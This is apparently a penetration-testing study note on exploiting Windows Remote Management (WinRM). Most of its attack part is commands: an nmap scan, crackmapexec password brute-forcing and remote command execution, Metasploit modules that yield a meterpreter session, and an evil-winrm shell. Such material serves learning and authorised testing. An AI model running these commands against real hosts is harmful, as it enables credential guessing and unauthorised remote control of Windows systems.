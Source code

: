 # Exploiting WinRM
> Windows Remote Management (WinRM) Protocol: This is a feature that exists within the Windows O/S. BUT, it is NOT configured to run by DEFAULT. It needs to be explicitly configured and enabled.

WinRM Default Ports:  `5985` (http) and `5986` (https)

## Contents
- [Intro](#)
  - [WinRM Usage Model](#)
  - [Exploiting WinRM](#)
- [Exploit](#)
  - [Nmap Scan](#)
  - [crackmapexec](#)
  - [MSF: winrm_login](#)
  - [MSF: winrm_auth_methods](#)
  - [MSF: winrm_script_exec](#)
  - [Ruby Script: evil-winrm](#)

## Intro

### WinRM Usage Model
- WinRM is a Windows remote management protocol that can be used to facilitate remote access with Windows systems over HTTP/HTTPS.
- Microsoft implemented WinRM in Windows to make life easier for system administrators.
- WinRM is typically used for:
  - Remotely accessing and interacting with Windows hosts on a local network.
  - You can also configure WinRM to work over the Internet (login to a server, etc.).
  - Remotely access and execute commands on Windows systems.
  - Manage and configure Windows systems remotely.
- WinRM typically used TCP port 5985 (http) and 5986 (https) by default.

### Exploiting WinRM

#### Steps:
1. Brute-force login creds with crackmapexec.
2. Exploit with evil-winrm or MetaSploit

#### Explanation:
- WinRM implements access control and security for communication between systems through various forms of authentication.
  - This could be a simple username/password combo.
  - You could also provide the user account username and a password hash.
- We can utilize a utility called `crackmapexec` to perform a brute-force attack on WinRM in order to identifiy users and their passwords as well as execute commands on the target system.
- We can also utilize a ruby script called `evil-winrm` to obtain a command shell session on the target system.
- We can also utilize MetaSploit to get a meterpreter session. 

## Exploit

### Nmap Scan
```
nmap -sS -sV -sC -O -T4 -p- [target ip]
# or
nmap -sV -p 5985-5986 [target ip]        # (which kinda seems like cheating)
```
- The `-sV` should be sufficient.
- Problem: WinRM ports (5985, 5986) do not fall within the 1000 most common ports scanned by nmap.
- Solution: Do a `-p-` scan and wait it out.
- NOTE: Don't accept the nmap result for the VERSION of WinRM as what you actually have.
  - WinRM does not provide banner information for versions, etc.
  - Nmap gives a best guess.

### [crackmapexec](https://ptestmethod.readthedocs.io/en/latest/cme.html)
> CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks.
- Supported Protocols: WinRM, MSSQL, SMB, SSH

#### For help:
```
crackmapexec -h
crackmapexec winrm -h    # for help specific to the winrm protocol
crackmapexec smb -h      # for help specific to the smb protocol (etc.)
```

#### General Syntax:
```
crackmapexec <protocol> <target(s)> -u username -p password
```

#### Examples:
```
crackmapexec <protocol> <target(s)> -u username -p 'Admin!123@'
# or
crackmapexec <protocol> <target(s)> -u='username' -p='Admin!123@'
```

#### Brute-Force:
```
crackmapexec winrm [target ip] -u administrator -p /usr/share/.../unix_passwords.txt
```
- You can use the `-u` switch to specify a file of possible user names to try.
- But, if we can get into the admin account, we don't have to do priv esc
- You should get a green `[+]` if successful.
- Look over the output (from the top down):
  - First line: you can see it actually connects to WinRM (wsman is an implementation of WinRM: windows management).
  - If you successfully found login credentials, you can crackmapexec to execute arbitrary Windows commands on the target machine...

#### Execute Commands:
```
crackmapexec winrm [target ip] -u administrator -p [password] -x "whoami"
crackmapexec winrm [target ip] -u administrator -p [password] -x "systeminfo"
```
- You should get some happy feedback along with the results of your command execution.
- The `systeminfo` command a takes while to run but provides a lot of information about your target system.


### MSF: winrm_login
- You can brute-force login creds with MetaSploit, also...
```
> use auxiliary/scanner/winrm/winrm_login
> set RHOSTS
> set USER_FILE /path/to/file
> set PASS_FILE /path/to/file
> set VERBOSE false
> run
```

### MSF: winrm_auth_methods
- You may need to find out what authentication methods your WinRM server allows: 
```
use auxiliary/scanner/winrm/winrm_auth_methods
```

### MSF: winrm_script_exec
- Obtaining a meterpreter session.
- NOTE: This module requires credentials, so you'll need to perform the brute-force attack first.
```
> search winrm_script
> use exploit/windows/winrm/winrm_script_exec
> show options
  # change what you need to: RHOSTS, etc. 
  # check your default payload and change if necessary (depending on your target system)
> set FORCE_VBS true
  #  this forces the use of a VBS Command Stager
> set username...
> set password...
> exploit
```
- You should get a meterpreter session. If it did not work, you'll have to keep trying.
- **_Remember to to set the `FORCE_VBS` to "true."_**

### Ruby Script: [evil-winrm](https://github.com/Hackplayers/evil-winrm)
> Ruby Script to Obtain Command Shell Session
```
evil-winrm.rb -u administrator -p '[password]' -i [target ip]
```
- This should automagically provide you with a command shell session. Test it out with...
```
whoami
ipconfig
net user
systeminfo
```
